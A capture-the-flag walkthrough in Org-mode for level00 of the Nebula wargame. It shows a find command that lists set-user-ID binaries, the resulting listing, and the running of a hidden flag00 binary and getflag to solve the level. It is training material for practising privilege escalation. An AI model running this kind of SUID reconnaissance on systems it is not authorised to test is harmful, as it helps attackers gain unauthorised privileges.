* level00
  :PROPERTIES:
  :CUSTOM_ID: level00
  :END:
** Task
   :PROPERTIES:
   :CUSTOM_ID: task
   :END:

#+begin_quote
  This level requires you to find a Set User ID program that will run as
  the "flag00" account. You could also find this by carefully looking in
  top level directories in / for suspicious looking directories.
#+end_quote

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:
=flag00@nebula:~$ find / -xdev \( -perm -4000 \) -type f -print0 | xargs -0 ls -l=

gives the following

#+begin_example
-rwsr-x--- 1 flag00  level00      7358 2011-11-20 21:22 /bin/.../flag00
-rwsr-xr-x 1 root    root        26260 2011-05-18 03:12 /bin/fusermount
-rwsr-xr-x 1 root    root        88716 2011-08-09 09:15 /bin/mount
-rwsr-xr-x 1 root    root        34740 2011-05-03 03:38 /bin/ping
-rwsr-xr-x 1 root    root        39116 2011-05-03 03:38 /bin/ping6
-rwsr-xr-x 1 root    root        31116 2011-06-24 02:37 /bin/su
-rwsr-xr-x 1 root    root        63592 2011-08-09 09:15 /bin/umount
-rwsr-xr-x 1 root    root        13904 2011-11-13 22:10 /sbin/mount.ecryptfs_private
-rwsr-sr-x 1 daemon  daemon      42736 2011-05-16 03:31 /usr/bin/at
-rwsr-xr-x 1 root    root        40292 2011-06-24 02:36 /usr/bin/chfn
-rwsr-xr-x 1 root    root        31748 2011-06-24 02:36 /usr/bin/chsh
-rwsr-xr-x 1 root    root        57956 2011-06-24 02:36 /usr/bin/gpasswd
-rwsr-xr-x 1 root    root        56208 2011-07-28 13:02 /usr/bin/mtr
-rwsr-xr-x 1 root    root        30896 2011-06-24 02:37 /usr/bin/newgrp
-rwsr-xr-x 1 root    root        41284 2011-06-24 02:36 /usr/bin/passwd
-rwsr-xr-x 2 root    root       156824 2011-09-11 12:06 /usr/bin/sudo
-rwsr-xr-x 2 root    root       156824 2011-09-11 12:06 /usr/bin/sudoedit
-rwsr-xr-x 1 root    root        14012 2011-05-03 03:38 /usr/bin/traceroute6.iputils
-rwsr-xr-- 1 root    messagebus 312728 2011-09-02 02:31 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root    root         5564 2011-04-30 08:02 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root    root       243864 2011-07-29 09:02 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root    root         9732 2011-10-04 15:08 /usr/lib/pt_chown
-r-sr-xr-x 1 root    root         9532 2011-11-20 17:35 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root    root        10224 2011-11-20 17:35 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-- 1 root    dip        273272 2011-02-04 00:43 /usr/sbin/pppd
-rwsr-sr-x 1 libuuid libuuid     13860 2011-08-09 09:15 /usr/sbin/uuidd
#+end_example

running the only file with flag00 in the name

=flag00@nebula:~$ /bin/.../flag00=

#+begin_example
Congrats, now run getflag to get your flag!
#+end_example

so i run =getflag=

=flag00@nebula:~$ getflag=

#+begin_example
You have successfully executed getflag on a target account
#+end_example
